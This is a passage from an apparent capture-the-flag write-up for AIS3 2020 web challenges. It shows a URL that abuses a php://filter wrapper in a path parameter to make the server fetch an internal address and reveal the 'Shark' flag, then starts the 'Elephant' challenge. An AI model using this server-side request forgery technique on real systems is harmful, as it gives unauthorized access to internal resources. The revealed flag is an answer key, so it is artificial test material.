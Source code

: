 try this

https://shark.ais3.org/?path=php://filter/resource=http://172.22.0.1/flag

doesn't work.

Try again

https://shark.ais3.org/?path=php://filter/resource=http://172.22.0.2/flag

BINGO🎉

Flag：`AIS3{5h4rk5_d0n'7_5w1m_b4ckw4rd5}`

### 🐘 Elephant

![Problem](https://raw.githubusercontent.com/tomy0000000/AIS3-2020-PreExam/main/Problems/%F0%9F%8C%90%20Web/%F0%9F%90%98%20Elephant/Problem.png)

Let's see the landing page

![home](elephant-home.png)

not a clue, try a random name
